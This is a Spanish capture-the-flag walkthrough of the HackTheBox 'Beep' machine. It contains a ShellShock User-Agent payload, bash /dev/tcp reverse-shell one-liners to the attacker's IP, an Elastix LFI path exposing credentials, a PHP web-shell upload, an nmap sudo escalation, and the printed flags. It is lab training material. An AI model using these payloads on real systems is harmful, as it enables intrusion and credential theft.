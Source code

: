 ```yaml
---
title: HackTheBox - Beep
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, ShellShock, 'File Upload', LFI, 'Information Leakage']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Beep/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Beep Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **ShellShock, File Upload, LFI, Information Leakage**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Beep`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Beep/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**


> En caso de que alguna de las páginas web contempladas en esta máquina nos de este problema **This website might not support the TLS 1.2 protocol** lo que haremos es ir a la configuración del navegador y colocar lo siguiente en la versión mínima y máxima del **TLS Soportado**
{: .prompt-info }

![](/assets/images/HTB/Easy/Beep/solution.png)


### Primera Forma 1️⃣

a. Accedemos al sitio web ejecutándose en el puerto **`10000`**

![](/assets/images/HTB/Easy/Beep/s1-web.png)

* Al intentar autenticarnos con credenciales comunes, veremos que la **URL nos lleva a `session_login.cgi`**.
* La clave aquí es la extensión **.cgi**, la presencia de esto lo comúnmente vulnerable a **`ShellShock`**.

b. Interceptamos la petición con **Burp Suite** y cambiamos la cabecera **`User-Agent`** por `() { :; }; [Comando]`.

* A pesar de no ver el **output del comando**, sabemos que estamos ejecutando comandos, ya que si levantamos un servidor **http** con Python (**`python -m http.server 8000`**) y en el comando a ejecutar hacemos una petición con **curl** (**curl -s -X GET <tun0 IP> 8000**) veremos la petición en nuestro servidor.

![](/assets/images/HTB/Easy/Beep/s1-command.png)

c. Entonces lo que haremos es enviarnos un **shell** con el comando **`bash -i >& /dev/tcp/<tun0 IP>/443 0>&1`** y antes de enviar este comando, nos ponemos en escucha con **nc en nuestra máquina**

![](/assets/images/HTB/Easy/Beep/s1-shell.png)

d. Al recibir la **`shell`** lo hacemos como el usuario **`root`**, por lo que podemos leer las dos **`flags`**

```bash
[root@beep fanis]# cat user.txt
cb059ef8e26fd457e39c711999a7bb07

[root@beep ~]# cat root.txt
36fa1cd62f78c3ab36b35bd7edc4e69e
```

### Segunda Forma 2️⃣

a. Vemos los siguientes servicios

```bash
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
```

![](/assets/images/HTB/Easy/Beep/s2-web.png)

* Al buscar por vulnerabilidades para este servicio encontramos un **`LFI`**

```
Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

b. Si vamos a la ruta especificada vemos que podemos cargar el contenido del archivo **`/etc/amportal.conf`**, en el cual veremos credenciales

```
AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBUSER=asteriskuser
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
AMPMGRPASS=jEhdIekWmdjE
```

* Al ir probando las credenciales veremos, que son válidas para **`/vtigercrm`** y para el panel de **`elastix`**

c. Vamos al panel de **`/vtigercrm`** y **`Settings > Editing Company Details`**, en este formulario existe un campo para cambiar el logo de la compañía, y aquí podremos subir un archivo **`php`** para ejectuar comandos.

1. Lo que haremos es crear un archivo **`backup.jpg`** con el siguiente contenido **`<?php system($_GET["cmd"]); ?>`**

2. Interceptamos la petición con **`Burp Suite`** y cambiamos el nombre del archivo

![](/assets/images/HTB/Easy/Beep/s2-burp.png)

* Enviamos la petición, y apesar, de que veamos un mensaje de **`error`** vemos que se subió nuestro archivo

    * **URL: `https://<IP>/vtigercrm/test/logo/`**

        ![](/assets/images/HTB/Easy/Beep/s3-shell.png)

3. Accedemos al archivo y nos enviamos un **`shell`**, nos ponemos en escucha con **`nc`** previamente y envíamos el comando
 
* **URL: `https://<IP>/vtigercrm/test/logo/shell.php?cmd=bash -c 'bash -i %3E%26 /dev/tcp/<tun0 IP>/443 0>&1`**

```bash
nc -lvnp 443
bash-3.2$
```

### Escalada de Privilegios 💹

a. Listamos nuestros privilegios en el sistema

```bash
sudo -l

User asterisk may run the following commands on this host:
  (root) NOPASSWD: /usr/bin/nmap
```

b. Vamos a [GTFObins](https://gtfobins.github.io/) y vemos si podemos convertirnos en el usario **`root`** a través de **`nmap`**, después de eso, leemos la **`flag`**

```bash
bash-3.2$ sudo nmap --interactive
                                               
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )                                                               
Welcome to Interactive Mode -- press h <enter> for help                                                               
nmap> !sh
whoami
root           
                                
cat /root/root.txt                                               
36fa1cd62f78c3ab36b35bd7edc4e69e
```